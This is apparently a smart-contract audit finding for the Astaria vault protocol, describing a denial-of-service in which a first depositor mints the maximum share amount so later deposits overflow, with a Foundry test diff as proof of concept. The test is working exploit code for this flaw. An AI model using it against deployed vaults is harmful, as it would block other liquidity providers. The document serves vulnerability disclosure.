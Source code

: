 -Title- 
DoS attack on a newly created public vault

-Description-
  When a public vault is created, liquidity providers can choose to use deposit() or mint() to provide liquidity. However, the previewMint function does not limit the [amount of shares](https://github.com/AstariaXYZ/astaria-gpl/blob/4b49fe993d9b807fe68b3421ee7f2fe91267c9ef/src/ERC4626-Cloned.sol#L132) that a liquidity provider can get. If the first liquidity provider get uint256.max shares, other liquidity providers will not be able to provide liquidity due to math overflow.

-PoC-

    diff --git a/src/test/AstariaTest.t.sol b/src/test/AstariaTest.t.sol
    index c7ce162..4726dfe 100644
    --- a/src/test/AstariaTest.t.sol
    +++ b/src/test/AstariaTest.t.sol
    @@ -14,6 +14,7 @@
    pragma solidity =0.8.17;
    
    import "forge-std/Test.sol";
    +import "forge-std/StdCheats.sol";
    
    import {Authority} from "solmate/auth/Auth.sol";
    import {FixedPointMathLib} from "solmate/utils/FixedPointMathLib.sol";
    @@ -36,7 +37,7 @@ import {Strings2} from "./utils/Strings2.sol";
    import "./TestHelpers.t.sol";
    import {OrderParameters} from "seaport/lib/ConsiderationStructs.sol";
    
    -contract AstariaTest is TestHelpers {
    +contract AstariaTest is StdCheats, TestHelpers {
    using FixedPointMathLib for uint256;
    using CollateralLookup for address;
    using SafeCastLib for uint256;
    @@ -44,6 +45,44 @@ contract AstariaTest is TestHelpers {
    event NonceUpdated(uint256 nonce);
    event VaultShutdown();
    
    +  function testBlockDeposit() external {
    +    // 0. setup roles
    +    address user = _getSigner("user");
    +    deal(address(WETH9), user, 100 ether);
    +    address attacker = _getSigner("attacker");
    +    deal(address(WETH9), attacker, 100 ether);
    +    // 1. create a new vault
    +    address publicVaultAddr = _createPublicVault({
    +      epochLength: 10 days, // 10 days
    +      strategist: strategistTwo,
    +      delegate: strategistOne
    +    });
    +    PublicVault publicVault = PublicVault(publicVaultAddr);
    +    // check no minted vault token
    +    assertEq(0, publicVault.totalSupply());
    +    // 2. attacker is the first depositor to get the max mint amount shares
    +    uint256 attackAmount = type(uint256).max;
    +    vm.startPrank(attacker);
    +    uint256 amount = publicVault.previewMint(attackAmount);
    +    assertEq(amount, 10 ether);
    +    ERC20(WETH9).approve(publicVaultAddr, amount);
    +    publicVault.mint(attackAmount, attacker);
    +    vm.stopPrank();
    +    // 3. normal user cannot deposit
    +    vm.startPrank(user);
    +    ERC20(WETH9).approve(publicVaultAddr, amount);
    +    uint256 shares = publicVault.deposit(amount, user);
    +    uint256 userBalance = publicVault.balanceOf(user);
    +    assertEq(shares, userBalance, "wrong share balance");
    +    vm.stopPrank();
    +  }
    +
    +  function _getSigner(string memory name) internal returns (address) {
    +    address user = makeAddr(name);
    +    vm.deal(user, 100 ether);
    +    return user;
    +  }
    +
    function testFeesExample() public {
        uint256 amountOwedToLender = getAmountOwedToLender(15e17, 10e18, 14 days);
        Fees memory fees = getFeesForLiquidation(
